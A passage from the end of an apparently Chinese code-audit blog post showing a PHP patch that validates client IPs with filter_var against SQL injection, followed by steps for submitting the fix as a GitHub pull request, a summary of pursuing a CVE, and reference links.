git commit -m "验证IP合法性,防止SQL注入"
git push --set-upstream origin bugfix
```

修复方式通过 `filter_var` 进行合法性验证，本地测试完，确保不影响程序正确执行。

```plain
function get_real_ip() {
    $real_ip = '';
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $arr = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $pos = array_search('unknown', $arr);
        if (false !== $pos) {
            unset($arr[$pos]);
        }
        $real_ip = trim($arr[0]);
    } elseif (isset($_SERVER['HTTP_CLIENT_IP'])) {
        $real_ip = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (isset($_SERVER['REMOTE_ADDR'])) {
        $real_ip = $_SERVER['REMOTE_ADDR'];
    }
    if (filter_var($real_ip, FILTER_VALIDATE_IP)) {
        return $real_ip;
    } else {
        return "";
    }
    //return $real_ip;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140353-bde89d18-8cea-1.png)

4) 提交PR

回到Github的仓库会提示你进行PR，点击 Compare & pull request 比较文件变动并做提交。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140404-c48fb566-8cea-1.png)

填写你的提交comment， 然后向下拉查看文件变动，左边是源代码，右边是你自己做的修改，仔细对比下改动。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140521-f2b120b0-8cea-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140535-fb0c96e0-8cea-1.png)

没问题，点击 **Create pull request** 完成提交，之后就可以在目标仓库的 **pull request** 看到自己的提交。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231127140559-08f02b5a-8ceb-1.png)

## 予一个有想法的总结

  本文以代码审计为基础，以提升自己为核心，以获取CVE编号为目标，基于此三要素，本文对于审计漏洞的过程给出了详细思考并分享了实践的一些技巧经验，同时对漏洞的发现并不浅尝辄止，努力尝试将漏洞的利用性提高，从而放大漏洞危害并编写出Exploit利用脚本实现自动化利用，最后，攻击和防御应该是密不可分的，在以攻促防，以防驱攻的指导精神下，对开源项目不仅在代码层面提供了切实可行的修复建议并且提交了相关的PR，确保漏洞能够得到及时修复，从而降低漏洞在野利用的破坏性，用户能够及时找到修复方案，促进开源项目更透明，更安全，更光明。

## 参考链接

1.[记获取CVE编号之路](https://blog.xiaohack.org/3422.html)

2.[水一篇文章：如何水一个 CVE（套娃）](https://www.sqlsec.com/2021/06/cve.html)

3.[【GitHub】如何提交PR(Pull Request)](https://blog.csdn.net/qq_44824148/article/details/125083107)

4.[聊聊CVE漏洞编号和正式公开那些事](https://blog.nsfocus.net/cve-vulnerability-numbers-officially-disclose/)

5.[CVE的不同状态](https://www.cnblogs.com/blazarstar/p/14561608.html)
